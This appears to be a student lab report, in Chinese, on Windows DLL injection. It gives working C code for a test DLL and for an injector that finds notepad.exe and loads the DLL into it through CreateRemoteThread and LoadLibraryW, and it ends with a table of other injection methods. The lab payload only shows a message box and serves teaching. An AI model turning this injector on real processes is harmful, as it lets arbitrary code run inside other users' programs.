



# dll注入攻击

## 1 实验要求

1. 查文档，研究远程线程方式注入dll的实例代码的实现原理。
2. 运行实例代码，向一个目标程序（比如notepad.exe)注入一个我们自行编写的dll，加载运行。
3. 整合进程遍历的程序，使得攻击程序可以自己遍历进程得到目标程序的pid。

## 2 实验环境

- Visual Studio 2019 
  - 选择`Debug x86`
- 选择32位 Notepad ，位于路径`C:\Windows\SysWOW64`
  - ~不要被名字迷惑~
  - 64位 Notepad 位于路径`C:\Windows\System32`

## 3 实验原理

- definition
  > DLL injection is the process of inserting code into a running process. 
  > The code we usually insert is in the form of a dynamic link library (DLL)
- four steps
  > 1.**Attach** to the process <br>
  > 2.**Allocate** Memory within the process <br>
  > 3.**Copy** the DLL or the DLL Path into the processes memory and determine appropriate memory addresses <br>
  > 4.Instruct the process to **Execute** your DLL

  

## 4 实验过程

### 4.1 dll的编写

- 在vs2019下新建项目`baselib`，其中`base.c`要自己编写dll文件的入口函数DllMain。
  - dll存在入口点函数，系统会在线程或进程加载或者卸载dll的时候调用入口点函数，用于执行简单的初始化工作和清理任务，如在创建线程时设置线程本地存储和在线程终止的时候清除本地存储。
  - 将dll和c运行时库链接时，运行时库可能会提供入口点函数，而且允许单独提供初始化函数。
  - 自己提供入口点，需要参考DllMain函数
  - 在`base.c`中，`lib_function`函数需要导出。当进程加载时会进入`DLL_PROCESS_ATTACH`，并且执行里面的代码。
    ```c
    // 能用c就用c 而不用c++
    // 不需要写main函数，因为main函数在exe中
    // 只需要提供基础功能
    #include <Windows.h>
    int WINAPI lib_function(char*);
    // 会被导出
    int WINAPI lib_function(char* msg) {
        // do some works
        MessageBoxA(0, 
            "msg from base lib", 
            msg, 
            MB_OK);
        return 0;
    }
    BOOL WINAPI DllMain(
        HINSTANCE hinstDLL,  // handle to DLL module
        DWORD fdwReason,     // reason for calling function
        LPVOID lpReserved)  // reserved
    {
        // Perform actions based on the reason for calling.
        switch (fdwReason)
        {
            // 进程加载了Dll后会调用函数，所以调用了两次
        case DLL_PROCESS_ATTACH:
            // Initialize once for each new process.
            // Return FALSE to fail DLL load.
            Sleep(1000);
            lib_function("load");
            break;

        case DLL_THREAD_ATTACH:
            // Do thread-specific initialization.
            break;

        case DLL_THREAD_DETACH:
            // Do thread-specific cleanup.
            break;

        case DLL_PROCESS_DETACH:
            // Perform any necessary cleanup.
            break;
        }
        return TRUE;  // Successful DLL_PROCESS_ATTACH.
    }
    ```

- 在同`base.c`的目录下建立模块定义文件`exp.def`。
    ```c
    LIBRARY   baselib
    EXPORTS
        lib_function
    ```
- 右键项目，选择`重新生成`，寻找新生成的`baselib.dll`的位置(通过生成时间判断)，一般位于整个解决项目的`Debug`目录下，用于后面的步骤。
  
  

### 4.2 远程线程劫持方式

- 使用[github上的开源项目](https://github.com/fdiskyou/injectAllTheThings)中的CreateRemoteThread()方法实现
  - 在vs2019下新建项目`dllinject`
  - 添加头文件为`fheaders.h`，参考项目中的[fheaders](https://github.com/fdiskyou/injectAllTheThings/blob/master/injectAllTheThings/fheaders.h)的用法。
    ```c
    #pragma once
    #include <stdio.h>
    #include <Windows.h>
    #include <tlhelp32.h>
    // Technique 1: CreateRemoteThread
    DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId);
    ```
  - 添加`dllinject.c`文件，参考项目中的[t_CreateRemoteThread.cpp](https://github.com/fdiskyou/injectAllTheThings/blob/master/injectAllTheThings/t_CreateRemoteThread.cpp)用法。其中`findPidByName`函数是用于进程遍历，使得攻击程序可以自己遍历进程得到目标程序的pid。`main`函数中dll应该为**绝对路径**。
    
    ```c
    #pragma warning(disable:4996)
    #include <stdio.h>
    #include <Windows.h>
    #include <tlhelp32.h>
    #include "fheaders.h"

    // 用于进程遍历，使得攻击程序可以自己遍历进程得到目标程序的pid 
    DWORD findPidByName(char* pname)
    {
        HANDLE h;
        PROCESSENTRY32 procSnapshot;
        h = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        procSnapshot.dwSize = sizeof(PROCESSENTRY32);

        do
        {
            char s[1000];
            strcpy(s, (char*)procSnapshot.szExeFile);
            //printf("%s id:%d return:%d\n", s, procSnapshot.th32ProcessID, strcmp(s, pname));
            if (!strcmp(s, pname))
            {
                DWORD pid = procSnapshot.th32ProcessID;
                CloseHandle(h);
    #ifdef _DEBUG
                printf("[+] PID found: %ld\n", pid);
    #endif
                return pid;
            }
        } while (Process32Next(h, &procSnapshot));

        CloseHandle(h);
        return 0;
    }

    DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
    {
        // Calculate the number of bytes needed for the DLL's pathname
        DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);

        // Get process handle passing in the process ID
        HANDLE hProcess = OpenProcess(
            PROCESS_QUERY_INFORMATION |
            PROCESS_CREATE_THREAD |
            PROCESS_VM_OPERATION |
            PROCESS_VM_WRITE,
            FALSE, dwProcessId);
        if (hProcess == NULL)
        {
            printf(TEXT("[-] Error: Could not open process for PID (%d).\n"), dwProcessId);
            return(1);
        }

        // Allocate space in the remote process for the pathname
        LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
        if (pszLibFileRemote == NULL)
        {
            printf(TEXT("[-] Error: Could not allocate memory inside PID (%d).\n"), dwProcessId);
            return(1);
        }

        // Copy the DLL's pathname to the remote process address space
        DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
        if (n == 0)
        {
            printf(TEXT("[-] Error: Could not write any bytes into the PID [%d] address space.\n"), dwProcessId);
            return(1);
        }

        // Get the real address of LoadLibraryW in Kernel32.dll
        PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
        if (pfnThreadRtn == NULL)
        {
            printf(TEXT("[-] Error: Could not find LoadLibraryA function inside kernel32.dll library.\n"));
            return(1);
        }

        // Create a remote thread that calls LoadLibraryW(DLLPathname)
        HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
        if (hThread == NULL)
        {
            printf(TEXT("[-] Error: Could not create the Remote Thread.\n"));
            return(1);
        }
        else
            printf(TEXT("[+] Success: DLL injected via CreateRemoteThread().\n"));

        // Wait for the remote thread to terminate
        WaitForSingleObject(hThread, INFINITE);

        // Free the remote memory that contained the DLL's pathname and close Handles
        if (pszLibFileRemote != NULL)
            VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);

        if (hThread != NULL)
            CloseHandle(hThread);

        if (hProcess != NULL)
            CloseHandle(hProcess);

        return(0);
    }

    int main() {
        DWORD pid = findPidByName("notepad.exe");
        // 下面的路径是位于debug下的baselib.dll 需要绝对路径
        demoCreateRemoteThreadW(L"E:\\CreateThread-Example\\Debug\\baselib.dll", pid);
        getchar();
        return 0;
    }
    ```

### 4.3 向目标程序注入dll

- 运行32位的Notepad
- 以管理员身份运行`dllinject.c`生成的`dllinject.exe`可执行程序，发现打开notepad.exe的时候会弹窗，证明dll已经注入到notepad.exe中。
  
  
  
## 5 实验问题以及解决

- 在vs2019下运行`dllinject.c`，得到了进程的PID，但是在获得进程的句柄出现失败，即`HANDLE hProcess = OpenProcess()`返回为空。
  - 解决方法：以管理员的方式运行`dllinject.exe`
  - 原因是：以vs2019运行的权限过低，无法实现dll注入

## 6 实验总结

- 应用程序一般使用dll注入技术来
  - 为目标进程添加新的“实用”功能
  - 需要一些手段来辅助调试被注入dll的进程
  - 为目标进程安装钩子程序(API Hook)
- 注入技术
  |名称|方法|
  |---|---|
  |修改注册表|修改`AppInit_DLLs`和`LoadAppInit_DLLs`|
  |`CreateRemoteThread`函数|在目标进程中创建一个线程并在线程中执行LoadLibrary函数加载要注入的dll|
  |`SetWindowsHookEx`函数|消息钩子，对程序挂钩(HOOK)迫使程序加载dll|
  |木马dll|确认目标进程一定会载入的dll，然后替换掉它|
  |使用调试器注入dll|调试器可以在被调试进程中执行很多特殊操作，操作系统载入一个被调试程序的时候，会在被调试的主线程尚未开始执行任何代码前，自动通知调试器(用来调试被调试进程的进程)，此时调试器可以将一些代码注入到被调试进程的地址空间中|
  |`CreateProcess`函数对子进程注入dll|要求目标进程是注入者进程的子进程，当使用CreateProcess函数来创建一个子进程时，可以选择创建后立即挂起该进程，目的地修改EIP的值让其从另一个位置继续执行|

## 7 参考资料

- [DllMain教程](https://docs.microsoft.com/zh-cn/windows/win32/dlls/dynamic-link-library-entry-point-function)
- [dllinjection教程](https://github.com/fdiskyou/injectAllTheThings)
- [Windows DLL Injection Basics](https://vulnerablelife.wordpress.com/2017/01/12/windows-dll-injection-basics/)
- [Windows系统的dll注入](https://www.cnblogs.com/wf751620780/p/10730013.html)